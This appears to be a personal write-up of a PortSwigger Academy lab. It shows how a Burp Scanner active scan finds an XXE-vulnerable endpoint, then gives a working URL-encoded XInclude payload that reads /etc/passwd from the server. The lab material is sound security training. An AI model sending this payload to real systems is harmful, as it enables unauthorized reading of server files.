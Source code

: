 

### Lab description

This lab contains a vulnerability that enables you to read arbitrary files from the server. To solve the lab, retrieve the contents of `/etc/passwd` within 10 minutes.

Due to the tight time limit, we recommend using [Burp Scanner](https://portswigger.net/burp/vulnerability-scanner) to help you. You can obviously scan the entire site to identify the vulnerability, but this might not leave you enough time to solve the lab. Instead, use your intuition to identify endpoints that are likely to be vulnerable, then try running a [targeted scan on a specific request](https://portswigger.net/web-security/essential-skills/using-burp-scanner-during-manual-testing#scanning-a-specific-request). Once Burp Scanner has identified an attack vector, you can use your own expertise to find a way to exploit it.

* Hint
> If you get stuck, try looking up our Academy topic on the identified vulnerability class.

### Solution

* Do active scan using Burp to find the XXE vulnerable endpoint

![[Pasted image 20230527115426.png]]

* Burp will find the vulnerable endpoint

![[Pasted image 20230527115506.png]]

* Using the payload below to solve the lab

```xml
<foo%20xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include%20parse="text"%20href="file:///etc/passwd"/></foo>
```

* Lab solved!

![[Pasted image 20230527115401.png]]
